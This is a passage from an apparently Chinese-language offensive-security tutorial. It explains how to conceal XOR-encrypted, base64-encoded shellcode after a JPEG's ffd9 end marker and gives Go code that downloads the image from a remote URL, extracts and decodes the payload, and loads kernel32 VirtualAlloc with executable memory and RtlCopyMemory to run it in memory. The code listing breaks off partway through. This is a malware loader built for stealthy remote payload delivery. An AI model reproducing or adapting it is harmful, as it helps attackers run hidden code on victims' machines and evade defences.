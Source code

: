 注意这里最好是选取jpeg图片,之前尝试使用png图片是失败的，因为在识别抽取shellcode是通过**jpeg的EOF**即`ffd9`实现的

> 注意:`jpeg`图片以ffd8开头并且以ffd9结尾

远程提取shellcode并在内存执行
-------------------

这里思路也比较简单，首先通过GET方式将图片的数据读取,然后判断jpeg图片的EOF即`ffd9` 转换成十进制就是`255 217` ，当识别到EOF后那么后面的自然就是经过异或加密的base64后的shellcode，将其提取出来之后我们开辟一个代码可执行的内存空间，填入我们前面使用KEY和base64decode解密后的`shellcode`，最终调用`syscall.Syscall`执行

贴一下最后的代码:

```golo=
package main

import (
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "net/http"
    "os"
    "syscall"
    "unsafe"
)

const (
    KEY_1 = 22
    KEY_2 = 44
    //配置堆属性
    MEM_COMMIT             = 0x1000
    MEM_RESERVE            = 0x2000
    PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var (
    kernel32      = syscall.MustLoadDLL("kernel32.dll")
    ntdll         = syscall.MustLoadDLL("ntdll.dll")
    VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
    RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
    imageUrl := "https://xxxx/xx.jpeg"
    res, err := http.Get(imageUrl)
    if err != nil {
        os.Exit(0)
    }
    body, err := ioutil.ReadAll(res.Body)
    res.Body.Close()
    //下面判断Jpeg结尾的ffd9
    idx := 0
    for i := 0; i < len(body); i++ {
        if body[idx] == 255 && body[idx+1] == 217 {
            break
        } else if idx == len(body)-1 {
            fmt.Print("shell png is not correct!")
            os.Exit(1)
        }
        idx++
    }
    base64Str := string(body[idx+2:])
    //fmt.Print(base64Str)
    xor_shellcode, err := base64.StdEncoding.DecodeString(base64Str)
    if err != nil {
        fmt.Print(err.Error())
    }
```